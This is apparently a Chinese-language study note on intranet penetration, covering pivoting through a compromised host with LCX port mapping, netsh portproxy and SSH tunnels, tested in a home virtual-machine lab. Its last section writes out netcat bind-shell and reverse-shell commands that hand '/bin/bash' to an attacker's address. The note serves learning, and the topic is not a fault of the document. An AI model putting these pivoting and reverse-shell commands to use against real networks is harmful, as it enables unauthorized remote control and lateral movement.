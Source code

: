 # 内网渗透
**介绍：**  攻击者通过边界主机进入内网，往往会利用它当跳板进行横向渗透，但现在的内部网络大多部署了很多安全设备，网络结构错综复杂，对于某些系统的访问会受到各种阻挠，这就需要借助代理去突破这些限制，因此面对不同的网络环境对于代理的选择及使用显得格外重要。  
**情景介绍：** 我的本地机子网段为10开头的看成公网，电脑中装有虚拟机网段为192网段看成内网

## 端口转发和端口映射
&ensp;&ensp;端口转发，有时被称为做隧道，是安全壳（SSH）为网络安全通信使用的一种方法。简单来说，端口转发就是将一个端口收到的流量转发到另一个端口。端口映射是NAT的一种，功能是把在公网的地址转成私有地址。简单来说，端口映射就是将一个端口映射到另一个端口供他人使用。
1. LCX工具  
    &ensp;&ensp;LCX是一款端口转发工具，分为Windows版和Linux版，Linux版本为PortMap。  
    命令：
    ```
    D:\常用文件\工具\网络工具\内网渗透\lcx.exe -<listen|tran|slave> <option> [-log logfile]
    [option:]
    端口转发
    -listen <监听slave请求的端口> <等待链接的端口>     #在外网电脑上执行
    -slave <外网IP> <监听端口> <目标IP>> <目标端口>    #在外网电脑上执行
    端口映射
    -tran   <等待链接的端口> <目标IP> <目标端口>
    ```
    &ensp;&ensp;推荐使用端口映射命令，端口转发命令需要在内网主机和外网主机都要执行，并且不稳定，我没有实验成功。端口映射只要在外网主机执行，
    实操
    &ensp;&ensp;端口映射:在外网主机输入`lcx.exe -tran 2222 192.168.200.40 3389 `，把192网段的主机的3389端口映射到本机的2222端口，访问2222端口相当于访问192网段的3389端口  
    ![端口映射](https://gitee.com/myzyzy/material/raw/image/pacture/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/%E7%AB%AF%E5%8F%A3%E6%98%A0%E5%B0%84.png)  
    &ensp;&ensp;端口转发：在内网主机输入命令`lcx.exe -slave 10.1.38.70 3333 192.168.200.40 3389 `,在外网主机执行命令`lcx.exe -listen 3333 2222 ` 把 内网主机转发的3333端口的流量转到2222端口  
    ![端口转发内网](https://gitee.com/myzyzy/material/raw/image/pacture/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/lcx%E5%86%85%E7%BD%91.PNG)  
    ![端口转发外网](https://gitee.com/myzyzy/material/raw/image/pacture/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/%E5%A4%96%E7%BD%91%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91.png)  
2. windows自带命令  
   [参考博客](https://zhuanlan.zhihu.com/p/266473873)

   Windows 从 Windows 2000 开始就提供了最基本的端口转发功能，是基于 Windows 的`IP Helper`服务的，不仅可以提供端口转发功能，还可以通过将 IPv4 和 IPv6 的不同地址的数据进行转发，但是只可以转发 TCP 协议，暂不支持 UDP 协议，使用`netsh interface portproxy`命令即可开启。  
   **命令帮助**
   ```
    PS C:\Windows\system32> netsh interface portproxy
    下列指令有效:
    此上下文中的命令:
    ?              - 显示命令列表。
    add            - 在一个表格中添加一个配置项。
    delete         - 从一个表格中删除一个配置项。
    dump           - 显示一个配置脚本。
    help           - 显示命令列表。
    reset          - 重置端口代理配置状态。
    set            - 设置配置信息。
    show           - 显示信息。
   ```
   查看所有的端口转发规则`netsh interface portproxy show all`  
   **添加规则帮助**
   ```
    add v4tov4     - 添加通过 IPv4 的 IPv4 和代理连接到的侦听项目。
    add v4tov6     - 添加通过 IPv6 的 IPv4 和代理连接到的侦听项目。
    add v6tov4     - 添加通过 IPv4 的 IPv6 和代理连接到的侦听项目。
    add v6tov6     - 添加通过 IPv6 的 IPv6 和代理连接到的侦听项目。
    ​
    用法: add v4tov4 [listenport=]<integer>|<servicename>
                [connectaddress=]<IPv4 address>|<hostname>
                [[connectport=]<integer>|<servicename>]
                [[listenaddress=]<IPv4 address>|<hostname>]
                [[protocol=]tcp]
    ​
    参数:
    ​
            标记            值
            listenport      - IPv4 侦听端口。
            connectaddress  - IPv4 连接地址。
            connectport     - IPv4 连接端口。
            listenaddress   - IPv4 侦听地址。
            protocol        - 使用的协议。现在只支持 TCP。
   ```
   添加规则  
   `
   netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=3389 connectaddress=<目标IP> connectport=3389
   `  
   把目标IP的3389端口转发到本机  
   **delete命令**
   ```
    delete v4tov4  - 删除通过 IPv4 的 IPv4 和代理连接到的侦听项目。
    delete v4tov6  - 删除通过 IPv6 的 IPv4 和代理连接到的侦听项目。
    delete v6tov4  - 删除通过 IPv4 的 IPv6 和代理连接到的侦听项目。
    delete v6tov6  - 删除通过 IPv6 的 IPv6 和代理连接到的侦听项目。
    ​
    用法: delete v4tov4 [listenport=]<integer>|<servicename>
                [[listenaddress=]<IPv4 address>|<hostname>]
                [[protocol=]tcp]
    ​
    参数:
    ​
            标记             值
            listenport     - 要侦听的 IPv4 端口。
            listenport     - 要侦听的 IPv4 地址。
            protocol       - 要使用的协议。当前仅支持 TCP。
   ```
   **删除规则**
   `
   PS C:\Windows\system32> netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=3389
   `

## 使用SSH端口转发  
1. 本地转发  
&ensp;&ensp;设攻击者已经拿下了公网主机，并且通过主机A获取到了内网主机IP和端口信息，但是攻击者从攻击机无法直接访问内网，公网主机安装了SSH服务端，这时攻击者便可通过SSH协议连接到公网主机，再通过公网主机做跳板，连接内网主机。命令`ssh -L <本机IP>:<本地端口>:<目的IP>:<目的IP端口> -fN <跳板主机地址>`，命令在攻击机上执行。
2. 动态转发  
&ensp;&ensp;动态转发指的是，本机与 SSH 服务器之间创建了一个加密连接，然后本机内部针对某个端口的通信，都通过这个加密连接转发。它的一个使用场景就是，访问所有外部网站，都通过 SSH 转发。
动态转发需要把本地端口绑定到 SSH 服务器。至于 SSH 服务器要去访问哪一个网站，完全是动态的，取决于原始通信，所以叫做动态转发。  
`ssh -D <本地端口> -CfNg <ssh服务器地址> `  
这种转发采用了 SOCKS5 协议，可以在客户端配置代理通过shh服务器访问服务。  

## 反弹shell
&ensp;&ensp;NetCat简称NC，是一个简单、可靠的网络工具，被誉为网络界的瑞士军刀。通过NC可以进行端口扫描、反弹Shell、端口监听和文件传输等操作.Centos8自带NetCat.
1. 正向shell
&ensp;&ensp;命令需要在两个能互相访问的的主机上运行。在目标机上输入`nc -lvvp <端口> -e /bin/bash`(在linux下，如果是windows则需要把`/bin/bash`换成cmd.exe程序的路径)，注意开放目标机上的端口，然后在攻击机上输入`nc <目标机的IP> <目标机端口>`
* 实操
**目标机**
![正向目标nc](https://gitee.com/myzyzy/material/raw/image/pacture/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/%E6%AD%A3%E5%90%91%E7%9B%AE%E6%A0%87nc.PNG)  
**攻击机**
![正向攻击nc](https://gitee.com/myzyzy/material/raw/image/pacture/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/%E6%AD%A3%E5%90%91%E6%94%BB%E5%87%BBnc.PNG)  
1. 反向shell
&ensp;&ensp;当目标机可访问外网时，可先在攻击机监听某一端口，然后从目标机连接此端口反向反弹Shell。在攻击机上输入`nc -lvvp <端口>`(监听某个端口)，在目标机上输入`nc -e /bin/bash <攻击机IP> <攻击机开放的端口>`，我感觉反向shell类似于钓鱼。
* 实操
**攻击机**  
![反向shell攻击nc](https://gitee.com/myzyzy/material/raw/image/pacture/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/%E5%8F%8D%E5%90%91shell%E6%94%BB%E5%87%BBnc.PNG)  
**目标机**  
![反向shell目标nc](https://gitee.com/myzyzy/material/raw/image/pacture/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/%E5%8F%8D%E5%90%91shell%E7%9B%AE%E6%A0%87nc.PNG)  
**攻击机** 
之后弹出
![反向shell攻击nc运行后](https://gitee.com/myzyzy/material/raw/image/pacture/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/%E5%8F%8D%E5%90%91shell%E6%94%BB%E5%87%BBnc%E8%BF%90%E8%A1%8C%E5%90%8E.PNG)  
